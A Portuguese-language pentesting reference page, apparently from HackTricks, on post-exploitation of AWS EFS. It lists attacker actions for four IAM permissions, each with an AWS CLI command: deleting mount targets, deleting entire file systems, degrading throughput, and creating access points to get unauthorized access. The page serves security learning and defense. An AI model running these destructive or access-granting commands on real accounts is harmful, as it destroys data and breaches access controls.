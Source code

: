 # AWS - EFS Pós Exploração

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Para mais informações, consulte:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

### `elasticfilesystem:DeleteMountTarget`

Um atacante poderia deletar um ponto de montagem, potencialmente interrompendo o acesso ao sistema de arquivos EFS para aplicações e usuários que dependem desse ponto de montagem.
```sql
aws efs delete-mount-target --mount-target-id <value>
```
**Impacto Potencial**: Interrupção do acesso ao sistema de arquivos e potencial perda de dados para usuários ou aplicativos.

### `elasticfilesystem:DeleteFileSystem`

Um atacante poderia deletar um sistema de arquivos EFS inteiro, o que poderia levar à perda de dados e impactar aplicativos que dependem do sistema de arquivos.
```perl
aws efs delete-file-system --file-system-id <value>
```
**Impacto Potencial**: Perda de dados e interrupção de serviço para aplicações que utilizam o sistema de arquivos excluído.

### `elasticfilesystem:UpdateFileSystem`

Um atacante poderia atualizar as propriedades do sistema de arquivos EFS, como o modo de throughput, para impactar seu desempenho ou causar exaustão de recursos.
```sql
aws efs update-file-system --file-system-id <value> --provisioned-throughput-in-mibps <value>
```
**Impacto Potencial**: Degradação do desempenho do sistema de arquivos ou exaustão de recursos.

### `elasticfilesystem:CreateAccessPoint` e `elasticfilesystem:DeleteAccessPoint`

Um atacante poderia criar ou excluir pontos de acesso, alterando o controle de acesso e potencialmente concedendo a si mesmo acesso não autorizado ao sistema de arquivos.
```arduino
aws efs create-access-point --file-system-id <value> --posix-user <value> --root-directory <value>
aws efs delete-access-point --access-point-id <value>
```
**Impacto Potencial**: Acesso não autorizado ao sistema de arquivos, exposição ou modificação de dados.

{{#include ../../../banners/hacktricks-training.md}}
